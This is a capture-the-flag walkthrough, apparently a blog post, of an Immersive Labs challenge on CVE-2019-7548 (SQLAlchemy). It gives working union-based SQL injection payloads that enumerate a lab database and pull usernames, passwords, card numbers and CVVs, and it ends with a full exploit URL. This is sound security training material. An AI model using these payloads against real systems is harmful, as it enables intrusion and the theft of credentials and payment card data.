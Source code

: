 ```yaml
---
date: 2025-01-09
categories: [CTF, ImmersiveLabs]
title: "IML - CVE-2019-7548 (SQLAlchemy)"
tags: ['john the ripper', 'privilege escalation', 'rce', 'sqli', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "CVE-2019-7548 (SQLAlchemy) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - CVE-2019-7548 (SQLAlchemy)


![image1](../resources/104530e8ce9144b8a7ca03ac32614d0e.png)
- Firstly we can see that there is a parameter that might be vulnerable to SQLi

- To test it, we can use a ' to break it


![image2](../resources/d8bf8d75a94a4170a70d85c6b3ba5aad.png)

- From here I use the order by query to find out how many columns the table has (trial and error)
- It errors at 9 so the table has 8 columns


![image3](../resources/984207172f12488180dea99b65e72f19.png)

- Now we can do union select 1,2,3,4,5,6,7,8 because the UNION has to have the same number of columns as the current table
- It was trial and error to find where the values were being reflected but I found it on the last page (221)


![image4](../resources/45d4e42d268e4f15b847b63869a89c21.png)

- Now we know where it is being reflected, we can get some information

- First find the type of DB and version:
  
```bash
union select 1,2,3,4,5,6,7,@@version

```

![image5](../resources/f1c0775cca67428696907ffe913c20f1.png)


![image6](../resources/8044a757cc3b464fb34e869b2fc7a778.png)

- Answering the questions:


![image7](../resources/a2dd9612bc6748a585a84b6c592ff62f.png)

- First let's get the database name - and because it's MariaDB we use:
  
```bash
database()

```

![image8](../resources/7f234af64aac45ad8e1ff0f5c947d401.png)


![image9](../resources/dec72510ef8b447db6c52a9e5dd96063.png)

- We can now enumerate the tables with:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(table_name) from information_schema.tables where table_schema="website"

```

![image10](../resources/6b0ecc57e49041fcb53f7cfe8362e3c6.png)


![image11](../resources/82862971d33e4232ac1702f82d18e392.png)

- From here we get the tables <u>transactions and users</u>

- First let's enumerate the table users:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(column_name) from information_schema.columns where table_name="users"

```

![image12](../resources/145d79b48ef74c3dbcb21e5f71d3d5df.png)


![image13](../resources/555d41cda3044677835d147a5a471cca.png)

- Here we get the columns
id,firstName,lastName,country,username,email,password,cardNumber,cardIssuer,cardExpiry,cardCVV

- To read the columns we do:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users

```
This will read and concat the two columns: username and password. The 0x2b is a delimeter to make it more easily readable


![image14](../resources/4b86829c5e38449f975d1b0dafc6b90e.png)


![image15](../resources/7a89bc3750c74a5ab5453c7f45f549d0.png)

- To narrow it down do:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users where username="ywalsh"

```

![image16](../resources/de5d883935e541b8ac32e77470a54c04.png)


![image17](../resources/a120b72b04354575bee352859d7e0a86.png)
- Use the following:

```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardNumber) from users where lastname="Park" and firstName="Shelly"

```

![image18](../resources/d61564005d864108a738b68e5f912633.png)

- Use the following:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV) from users where lastname="Elliott" and firstName="John"

```

![image19](../resources/c6b6ddc750aa47ba864f1e159c50b957.png)


![image20](../resources/6ff53b6b417f46ac9ddf011edf26bc22.png)

Full URL for this is:

`http://10.102.16.9/?page=221&group=email%20union%20select%201,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV)%20from%20users%20where%20lastname=%22Elliott%22%20and%20firstName=%22John%22`
